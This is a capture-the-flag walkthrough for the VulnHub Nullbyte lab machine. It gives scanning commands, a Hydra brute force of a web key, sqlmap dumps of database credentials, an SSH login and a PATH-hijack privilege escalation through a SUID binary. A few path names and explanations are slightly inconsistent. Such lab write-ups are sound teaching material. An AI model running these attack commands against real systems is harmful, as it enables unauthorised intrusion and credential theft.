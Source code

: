 # NullByte

Nullbyte Walkthrough

### Details

* Name: Nullbyte ([VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/))
* Goal/Objective: Get */root/proof.txt*

### Scanning

I began by using *netdiscover* to scan my network for computers/devices:
```bash
sudo netdiscover
```

This then returned the IP address of the target machine: ***192.168.132.88***. From there I proceeded to do my intial scan on the network using *nmap*:
```bash
nmap -A -p0-65535 192.168.132.88
```

The nmap scan returns promising results as there are a couple of ports open:     
- 80/tcp - HTTP 
- 111/tcp - RPCBIND
- 777/tcp - SSH
- 60316/tcp

The two services that stood out to me immediately were HTTP & SSH. Note that SSH (port 22) is being forwarded to port 777, we'll keep this in mind for later.

### Website Exploring

I then proceeded to visit the website (http://192.168.132.88:80) to some investigating. The source code for the website did not display anything promising as it only contains a image & some text.

However, I decided to check the image using exiftool to see if there was anything hidden within the metadata:
```bash
exiftool main.gif
```
Looking through the output, I was able to see that there was a section labeled "comments" that contained something that could be useful: *P-): kzMb5nVYJw*


While all this was being done, I did my normal routine of website scanning to help look for extra directories, etc:
```bash
# nikto scan
nikto -h http://192.168.132.88

# gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.132.88/

# dirb
dirb 192.168.132.88
```
The most important directories that were returned were */uploads* and ***/phpmyadmin/***

### 'Key' cracking

Remember that string that was returned by exiftool? The one labeled as a comment? "P-): kzMb5nVYJw". Yeah we're going to need that. If you remove the first couple of characters up until the space, you're left with "kzMb5nVYJw". This ends up being a directory within the website, http://192.168.132.88/kzMb5nVYJw.

On this page we see a very simple page that contains a textbox titled "Key". However the issue is.. we don't have a key yet.

There are two ways to approach cracking this "Key", using Hydra or Burpsuite. I will show you both.

### Hydra

If you open up the developer tools and go to the "Network" tab, and reload the website. You notice there is a POST request being made. If you click on it and expand the "Request" tab, you see that it is a value *key* is being used as form data. With all this in mind, we can use it to construct a hydra command to help us guess the value of "key".
```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.132.88 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```
A quick breakdown of the command we're using:
* -l: username (none)
* -P: "password" wordlist
* http-post-form: Recall it is a POST call being made using the form
* "/kzMb5nVYJw/index.php:key=^PASS^:invalid key": We encode the *key* to be url encoded so that it can be passed as an argument, then we use '^' to surround the value that we want hydra to brute form, the password aka the "key"

The hydra command is able to find the password/key: elite

### Burpsuite

We will use burpsuite to also brute-force the value of "key".

Start off by opening Burpsuite and selecting the proxy tab. Then click on "open browser" and visit the page that needs the key, http://192.168.132.88/kzMb5nVYJw. Next click on "interceptor on", then on the website type in anything into the textbox and press enter. 

Then once the data is returned/shown on burpsuite, next to the "intercept is on" button, click on "Action" button and select "Send to Intruder". This will send the information over to the Intruder tab.
Switch to the Intruder tab, and at the bottom of the page, highlight the section of the string after the "=" and click on button on the right "Add". Once this is done, you should be able to switch tabs from "Positions" over to the "Payloads" tab. From here the only thing you need to do is on the "Payload setting", click on "Load" and go to "/usr/share/wordlists" to select the wordlist you would like to use. Once you have done this, you may press the orange button on the top right, "Start attack".

## SQL

Now that we have the key, we can use it on the page. We are now greeted with a page that seems to allow us to search for usernames.

Leaving the text-box empty and pressing enter returns a couple of entries from what appears to be a employee database. 

Since this seems to use mysql, let's try using *sqlmap* to explore the database.
```bash
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs
```
We see that sqlmap returns 5 databases. The two that we will explore are 'mysql' and 'seth'.

If you are not familiar with SQL, recall: A database contains tables. A table can be pictured as an excel file, where there are rows and columns of information.

### 'mysql' table

Let's first explore the *mysql* database
```bash
# Check what tables are in the 'mysql' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql --tables

# Check what columns are in the 'user' table (from the 'mysql database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user --columns

# Display User + Password from the 'user' table (from the 'mysql' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user -C User,Password --dump
# Note that the command above will ask if you would like sqlmap to try and crack the passwords via a dictionary-based attack - select 'Y', then press enter to use the default password list.
```
sqlmap returns:
* User: ***root*** | Password: ***sunnyvale***
* User: ***phpmyadmin*** | sunnyvale***

### 'seth' table

Next, let's explore the *seth* database
```bash
# Check what tables are in the 'seth' database
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables

# Check what columns are in the 'users' table (from the 'seth database')
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns

# Display user + pass from the 'users' table (from the 'seth' database)
sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C user,pass --dump
```
sqlmap returns:
* user: ***ramses*** | pass: ***YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE1***
* You can use a website to decrypt this md5 password twice to get the password: ***omega***

## SSH

One thing to quickly notice is that we now have the credentials for the */phpmyadmin/* page (root/sunnyvale). However, I wasn't able to find anything important here.

So instead, let's try and use the credentials that we found from the 'seth' database to try and login via SSH:
```bash
# Notice we're using port 777
ssh ramses@192.168.132.88 -p 777
```

## Priviledge Escalation

Now that we're in, we need to find a way to get root user.

Check to see if anything is out of the ordinary:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Notice that there is something within the www directory called 'procwatch'. If we try to run it, the output looks similar to a cron job.
```bash
/var/www/backup/procwatch
```

It seems that it is attempting to deploy ps, but unable to do so. Go to the directory and create a script that will launch a bash shell.
```bash
# Go to correct directory
cd /var/www/backups

# Create bash script and title it ps
echo "/bin/bash" > ps

# Add root privileges to the file
chmod 777 ps
```


Now, let's check if this is just a script to run the *ps* command:
```bash
# env = list all environment variables | grep PATH = return line containing PATH
env | grep PATH

# Alternatively you can do
echo $PATH
```

Update the PATH for environment variables:
```bash
# Essentially what this command does is add "." + $PATH
export PATH=.:$PATH
```

Finally run `./procwatch`






